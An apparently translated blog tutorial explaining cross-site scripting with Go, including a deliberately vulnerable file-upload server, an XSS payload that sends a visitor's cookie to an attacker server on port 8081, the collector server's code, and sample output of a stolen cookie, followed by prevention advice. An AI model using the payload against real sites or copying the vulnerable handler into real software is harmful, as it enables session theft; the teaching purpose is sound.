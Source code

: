 +++
author = "penguinit"
title = "What is XSS: Learn with Golang"
date = "2024-03-17"
description = "In today's post, we'll learn about Cross-Site Scripting (XSS), build a simple web server with Golang, and see how it can be attacked."
tags = [
"xss", "browser", "golang"
]
categories = [
"web", "language"
]
+++

## Overview

In today's post, we'll learn about Cross-Site Scripting (XSS), build a simple web server with Golang, and see how it can be attacked.

## What is XSS

Cross-Site Scripting (XSS) is a vulnerability that can occur when user-supplied input is not validated or properly escaped. An attacker can use this vulnerability to inject malicious scripts into a web page, which can then be executed in another user's browser, allowing them to hijack the user's session, tamper with the website, and more.

![Untitled](images/Untitled.png)

## Example of an XSS attack

Let's create a simple example of creating a web server with Golang and fetching sensitive information.

### A server that uploads and displays specific content

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"os"
)

func uploadFileHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		if r.Method == "POST" {
			// 1. extract the file
			file, _, err := r.FormFile("uploadedFile")
			if err != nil {
				http.Error(w, err.Error(), http.StatusBadRequest)
				return
			}
			defer file.Close()

			// 2. Read the file contents
			fileBytes, err := io.ReadAll(file)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}

			// 3. save the file contents to a temporary file on the server
			err = os.WriteFile("uploadedScript.html", fileBytes, 0644)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}
			
			fmt.Fprintf(w, "File uploaded successfully")
		}
	}
}

func serveContentHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		http.ServeFile(w, r, "uploadedScript.html")
	}
}

func main() {
	http.HandleFunc("/", uploadFileHandler())
	http.HandleFunc("/content", serveContentHandler())

	fmt.Println("Server started at :8080")
	http.ListenAndServe(":8080", nil)
}
```
You can upload scripts for XSS attacks with the `POST /` function and deliver the uploaded content to the user with the `GET /content` function.

### Uploaded XSS attack script

```jsx
// xss.html

<script>
   function sendCookies() {
   var xhr = new XMLHttpRequest();
   xhr.open("GET", "http://localhost:8081/steal?cookie=" + encodeURIComponent(document.cookie), true);
   xhr.send();
}

   sendCookies();
</script>
```
When the script is executed, it sends the cookie information of the user executing the script to the attacker server on port 8081.

### Attacker Server

The attacker server receives the cookie information through the XSS attack script.

```go
package main

import (
	"fmt"
	"log"
	"net/http"
)

func main() {
	http.HandleFunc("/steal", func(w http.ResponseWriter, r *http.Request) {
		enableCors(&w)

		// Get the "cookie" value from the query parameter.
		cookie := r.URL.Query().Get("cookie")
		// Print to the console.
		fmt.Printf("Stealed Cookie: %s\n", cookie)

		w.WriteHeader(http.StatusOK)
		fmt.Fprint(w, "OK")
	})

	log.Println("Starting on attacker server port 8081...")
	log.Fatal(http.ListenAndServe(":8081", nil))
}

func enableCors(w *http.ResponseWriter) {
	(*w).Header().Set("Access-Control-Allow-Origin", "*")
}
```

### Actual result

1. upload formFile using curl

```
curl -F "uploadedFile=@path/to/xss.html" http://localhost:8080/
```

2. execute GET /content with a specific user ([http://localhost:8080/content](http://localhost:8080/content))
3. steal cookie information from the attacker's server

```
2024/03/17 17:02:10 Started on attacker server port 8081...
Stealed Cookie: Authorization=t1823ski!3a;
```

In the example above, the XSS attack script is inserted and when the customer accesses the page, the attacker server gets the cookie-related information.

## Preventing XSS

To proactively prevent XSS attacks, you can consider several methods.

1. Input validation: You should perform validation on all input you receive from users, for example, only email addresses should be accepted in the email address field, and where names are entered, you can limit the length or validate for certain characters.
2. Output encoding: When outputting user input to a web page, use HTML encoding to convert potentially dangerous characters, such as script tags, into safe forms. For example, it converts `<` to `&lt;` and `>` to `&gt;`.
3. Content Security Policy (CSP): With a CSP, you can restrict the origin of scripts that can be executed on a web page.  → [What is CSP, learn more with Golang](/en/post/202403/5/)
4. Cookie settings: Using the `HttpOnly` and `Secure` flags, you can help protect your user's session from XSS attacks.
   1. HttpOnly: Cookies with this flag set are not accessible via JavaScript, which prevents cookie hijacking via XSS attacks.
   2. `Secure`: Cookies with this flag set will only be sent over HTTPS.

## Summary

XSS attacks can be attempted in various ways besides the examples above. Attack scripts can be placed in specific fields stored in the DB, or if you have a feature that outputs the user's input as it is, you can perform unwanted scripts directly without considering the above XSS attacks.

In this post, we've discussed what XSS is and how it can be attacked using a simple Golang example.

Translated with DeepL.com (free version)